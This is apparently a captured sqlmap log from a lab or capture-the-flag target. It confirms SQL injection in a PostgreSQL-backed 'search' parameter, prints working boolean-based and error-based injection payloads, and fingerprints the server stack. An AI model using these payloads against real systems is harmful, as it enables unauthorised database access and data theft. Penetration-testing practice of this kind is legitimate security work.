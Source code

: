 ```shell
[19:21:38] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[19:21:38] [INFO] GET parameter 'search' is 'PostgreSQL AND error-based - WHERE or HAVING clause' injectable 
[19:21:38] [INFO] testing 'PostgreSQL inline queries'
[19:21:39] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[19:21:39] [WARNING] time-based comparison requires larger statistical model, please wait....... (done)                                                                                
[19:21:42] [CRITICAL] considerable lagging has been detected in connection response(s). Please use as high value for option '--time-sec' as possible (e.g. 10 or more)
[19:21:47] [INFO] testing 'PostgreSQL > 8.1 stacked queries'
[19:21:53] [INFO] testing 'PostgreSQL stacked queries (heavy query - comment)'
[19:21:54] [INFO] testing 'PostgreSQL stacked queries (heavy query)'
[19:21:55] [INFO] testing 'PostgreSQL < 8.2 stacked queries (Glibc - comment)'
[19:21:55] [INFO] testing 'PostgreSQL < 8.2 stacked queries (Glibc)'
[19:21:55] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'
[19:22:00] [INFO] testing 'PostgreSQL > 8.1 OR time-based blind'
[19:22:06] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind (comment)'
[19:22:11] [INFO] testing 'PostgreSQL > 8.1 OR time-based blind (comment)'
[19:22:16] [INFO] testing 'PostgreSQL AND time-based blind (heavy query)'
[19:22:17] [INFO] testing 'PostgreSQL OR time-based blind (heavy query)'
[19:22:20] [INFO] testing 'PostgreSQL AND time-based blind (heavy query - comment)'
[19:22:22] [INFO] testing 'PostgreSQL OR time-based blind (heavy query - comment)'
[19:22:23] [INFO] testing 'PostgreSQL > 8.1 time-based blind - Parameter replace'
[19:22:23] [INFO] testing 'PostgreSQL time-based blind - Parameter replace (heavy query)'
[19:22:23] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
GET parameter 'search' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 

sqlmap identified the following injection point(s) with a total of 42 HTTP(s) requests:
---
Parameter: search (GET)
    Type: boolean-based blind
    Title: PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)
    Payload: search=test' AND (SELECT (CASE WHEN (1811=1811) THEN NULL ELSE CAST((CHR(70)||CHR(77)||CHR(71)||CHR(74)) AS NUMERIC) END)) IS NULL-- Juff

    Type: error-based
    Title: PostgreSQL AND error-based - WHERE or HAVING clause
    Payload: search=test' AND 9520=CAST((CHR(113)||CHR(107)||CHR(98)||CHR(113)||CHR(113))||(SELECT (CASE WHEN (9520=9520) THEN 1 ELSE 0 END))::text||(CHR(113)||CHR(118)||CHR(113)||CHR(122)||CHR(113)) AS NUMERIC)-- xXWf
---
[19:22:34] [INFO] the back-end DBMS is PostgreSQL
web server operating system: Linux Ubuntu 19.10 or 20.10 or 20.04 (eoan or focal)
web application technology: Apache 2.4.41
back-end DBMS: PostgreSQL
[19:22:37] [INFO] fetched data logged to text files under '/home/n0m3l4c000nt35/.local/share/sqlmap/output/10.129.96.0'

[*] ending @ 19:22:37 /2024-03-19/
```
